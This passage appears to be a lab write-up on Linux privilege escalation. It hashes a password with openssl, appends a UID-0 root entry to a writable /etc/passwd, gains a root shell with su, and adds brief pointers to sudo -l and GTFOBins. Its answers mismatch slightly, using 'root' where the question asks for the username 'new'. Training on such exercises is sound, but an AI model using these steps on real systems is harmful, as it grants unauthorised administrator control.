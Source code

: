 
#### Having read the information above, what direction privilege escalation is this attack?
> We can escalate our privilege to above user (root), so it's Vertical.

#### Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: "openssl passwd -1 -salt [salt] [password]". What is the hash created by using this command with the salt, "new" and the password "123"?
```bash
user7@polobox:/home/user3$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
```

#### Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?
```bash
root:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

#### Great! Now you've got everything you need. Just add that entry to the end of the /etc/passwd file!
```bash
user7@polobox:/home/user3$ nano /etc/passwd
user7@polobox:/home/user3$ cat /etc/passwd
root:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
...
```

#### Now, use "su" to login as the "new" account, and then enter the password. If you've done everything correctly- you should be greeted by a root prompt! Congratulations!
```bash
user7@polobox:/home/user3$ su root
Password: 
Welcome to Linux Lite 4.4
 
You are running in superuser mode, be very careful.
 
Monday 11 January 2021, 00:59:05
Memory Usage: 333/1991MB (16.73%)
Disk Usage: 6/217GB (3%)
 
root@polobox:/home/user3#
```

## Escaping Vi Editor
- Check privileges
    ```bash
    sudo -l
    ```
- Check misconfigured binaries at [GTFOBins](https://gtfobins.github.io/).
